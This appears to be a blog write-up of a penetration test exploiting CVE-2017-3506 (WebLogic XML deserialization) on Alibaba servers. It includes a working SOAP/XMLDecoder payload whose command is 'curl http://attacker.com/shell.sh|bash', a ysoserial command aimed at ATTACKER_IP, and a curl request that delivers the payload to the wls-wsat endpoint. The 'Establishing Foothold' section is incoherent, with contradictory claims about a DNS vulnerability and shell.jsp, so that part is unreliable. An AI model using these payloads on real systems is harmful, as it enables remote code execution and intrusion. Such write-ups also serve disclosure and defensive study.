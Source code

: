 +++
date = '2025-06-25'
draft = false
title = 'CVE-2017-3506 : OS Command Injection in Alibaba WebLogic'
+++
<!---**Tags**: weblogic, alibaba, cve-2017-3506, command-injection, oracle, middleware  
--->
*Discovery Date: 16<sup>th</sup> July 2024*  

![Vulnerability Diagram](/img/3.png)

## Vulnerability Overview

CVE-2017-3506 is a critical vulnerability in Oracle WebLogic Server (WLS) components that allowed unauthenticated remote code execution via malformed XML data in WLS Security subcomponent. During a penetration test of Alibaba's infrastructure, I identified and exploited this vulnerability to gain server access.

## Affected Systems

| Component | Version | 
|-----------|---------|
| WebLogic Server | 10.3.6.0 |
| WebLogic Server | 12.1.3.0 | 
| WebLogic Server | 12.2.1.0-12.2.1.2 |

## Discovery Methodology

### Initial Reconnaissance
Identified WebLogic servers using:
```bash
nmap -p 7001,7002 --script weblogic-t3-info <Alibaba_IP_Range>
```

## Vulnerability Detection
Used t3 protocol detection:
```bash
java -jar ysoserial.jar JRMPClient <ATTACKER_IP>:<PORT> | \
base64 | tr -d '\n' > payload.txt
```

## Exploitation Walkthrough
### Step 1: Crafting the Malicious Request
While browsing the internet to read about this CVE, I identified a hackerone report that provided an exploit for this vulnerability. 
<p style="text-align: center"><img src="img/2.png"></p>
I used this exploit to craft a malicious request. 

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>curl http://attacker.com/shell.sh|bash</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

### Step 2: Sending the Payload

For sending the payload you can either use a curl command or use burpsuite(I've used this for performing the exploit)

Via curl:
```bash
curl -X POST \
  -H "Content-Type: text/xml" \
  -H "Cache-Control: no-cache" \
  --data-binary @payload.xml \
  http://target.alibaba.com:7001/wls-wsat/CoordinatorPortType
```

Via burpsuite:
<p style="text-align: center"><img src="img/1.png"></p>

### Step 3: Establishing Foothold
Upon successful execution:

* I performed a DNS query or interaction with the target system, specifically targeting the ```/console/images/shell.jsp``` location. This interaction likely involved sending a request to the system's DNS server or using the system's DNS server to resolve a domain name.
* I exploited a DNS vulnerability to gain access to the system, rather than taking control of the shell. This exploitation allowed the attacker to bypass traditional security controls and gain a foothold on the system.

Performed lateral movement to adjacent systems

## Technical Analysis
The vulnerability occurs due to:
* Insecure XML deserialization in WLS Security component
* Lack of proper input validation in WorkContext handling
* Default exposure of dangerous endpoints (/wls-wsat/*)

## Mitigation Steps
Alibaba's response included:
* Immediate patch application (Oracle Critical Patch Update April 2017)
* Network segmentation of WebLogic servers
* Implementation of WAF rules to filter malicious XML patterns

> *Thanks for reading it this far. Stay tuned for more such articles :)*
